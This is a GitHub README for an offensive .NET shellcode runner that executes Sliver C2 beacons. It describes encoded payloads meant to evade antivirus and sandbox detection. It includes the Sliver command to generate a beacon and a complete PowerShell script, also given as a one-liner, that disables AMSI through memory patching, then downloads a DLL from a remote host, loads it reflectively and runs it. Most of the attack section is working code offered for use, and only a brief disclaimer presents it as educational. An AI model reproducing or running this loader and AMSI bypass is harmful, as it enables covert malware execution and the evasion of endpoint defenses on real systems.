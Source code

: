 # Sliver_C-_Runner_Caesar

There is nothing special going on here; these are super basic methods.

## Introduction
This is a Digital Honk Project that illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

### Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

### Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

### Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

### Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

One Liner:
```powershell
try{[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"}|%{($c=$_).GetFields('NonPublic,Static')|?{$_.Name -like "*Context"}|%{$g=$_.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)}}; $data=(New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll'); $assem=[System.Reflection.Assembly]::Load($data); [honk.Program]::appleBits()}catch{Write-Error "An error occurred: $_"}finally{Write-Host "Press Enter to exit...";[Console]::ReadLine()}
```

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
Acknowledgments

    Special thanks to the Sliver C2 framework for the payload generation capabilities.
    Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
